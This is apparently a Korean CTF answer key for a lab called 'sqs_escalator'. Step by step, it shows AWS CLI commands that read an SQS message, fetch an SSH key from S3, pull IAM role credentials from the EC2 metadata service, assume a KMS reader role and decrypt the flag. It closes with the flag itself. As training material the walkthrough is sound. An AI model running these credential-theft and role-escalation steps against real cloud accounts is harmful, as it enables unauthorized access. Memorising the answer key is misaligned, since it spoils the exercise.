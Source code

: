 # [sqs_escalator] 모범 답안  
<br/>
답안을 보고 풀이를 직접 진행할 수 있도록 진행 과정을 상세하게 작성.  
<br/><br/>

1. Terraform을 통해 생성된 Access Key와 Secret Key를 사용하여 AWS CLI 프로파일을 구성한다.  
```bash
aws configure --profile yejin
```

2. 설정이 올바르게 되었는지 확인한다.  
```bash
aws sts get-caller-identity --profile yejin
```

3. SQS 메시지를 수신하여 EC2 접속 정보, PEM 경로, 플래그 경로, AssumeRole 힌트를 획득한다.  
```bash
aws sqs receive-message \
  --queue-url <SQS_URL> \
  --profile yejin
```

4. PEM 키 파일을 S3에서 다운로드 후 SSH 접속을 시도한다.  
```bash
aws s3 cp s3://<bucket-name>/ec2-access.pem ./ec2-access.pem --profile yejin
chmod 400 ec2-access.pem

ssh -i ec2-access.pem ec2-user@<EC2_IP>
```

5. EC2 내부에서 메타데이터 서비스를 통해 IAM 역할 자격 증명을 탈취한다.  
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<EC2-ROLE-NAME>
```

6. 탈취한 자격 증명을 환경 변수로 등록한다.  
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
```

7. 암호화된 flag 파일을 S3에서 다운로드한다.  
```bash
aws s3 cp s3://<bucket-name>/flag.enc ./flag.enc
```

8. 복호화를 시도하나 실패한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext
```

9. AssumeRole을 수행하여 kmsReaderRole 권한을 획득한다.  
```bash
creds=$(aws sts assume-role \
  --role-arn arn:aws:iam::<account-id>:role/kmsReaderRole \
  --role-session-name attacker-session)

export AWS_ACCESS_KEY_ID=$(echo $creds | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $creds | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $creds | jq -r '.Credentials.SessionToken')
```

10. 획득한 권한으로 다시 KMS 복호화를 시도하여 flag를 획득한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext | base64 -d
```

<br/><br/>
FLAG{escalation_success_kms_flag}